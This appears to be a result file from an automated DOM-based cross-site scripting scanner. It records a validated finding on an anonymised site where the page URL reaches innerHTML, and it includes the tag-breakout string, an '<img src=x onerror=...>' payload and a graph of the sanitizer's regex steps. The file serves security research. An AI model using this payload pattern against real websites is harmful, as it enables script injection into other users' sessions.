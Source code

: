 // Finding: face742f-403e-4ad1-94ab-f8ffa877f06e
// Finding.url: https://spark.example150.com/page/NHBy4ytLKAo4N/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('3e6ed4818a4f48259967c31b51ac8411')><!--/*
// Finding.parentloc: https://spark.example150.com/page/NHBy4ytLKAo4N/##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('3e6ed4818a4f48259967c31b51ac8411')><!--/*
// Finding.domain: spark.example150.com
// Finding.base_domain: example150.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 236
// Sanitizer.name: setQueryParams
// Sanitizer.location: https://page.example151.com/runtime/1.22/runtime-prod.gz.js - setQueryParam:4:12067
// Finding.begin: 39
// Finding.end: 82
// Finding.original_uuid: 19a5fa69-43fc-486f-8e8f-316a98e310de
// Finding.TwentyFiveMillionFlowsId: -207939907
// Finding.script: https://page.example151.com/runtime/1.22/runtime-prod.gz.js
// Finding.line: 1
// Exploit.uuid: 3e6ed481-8a4f-4825-9967-c31b51ac8411
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 43
// Exploit.replace_begin_url: 43
// Exploit.replace_end_url: 43
// Exploit.replace_begin_param: 82
// Exploit.replace_end_param: 82
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1044917387
// DepGraph.sanitizer_hash: 1044917387

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="regex_exec"];
n2 [shape=box, label="RegExp: /([^\?#]+)?(\?[^#]*)?(#.*)?/"];
n3 [shape=box, label="Lit: 1"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="str_replace_once"];
n6 [shape=box, label="RegExp: /([^\?#]+)?(\?[^#]*)?(#.*)?/"];
n7 [shape=box, label="Lit: $1?page-mode=static$3"];
n8 [shape=box, label="Var: x"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}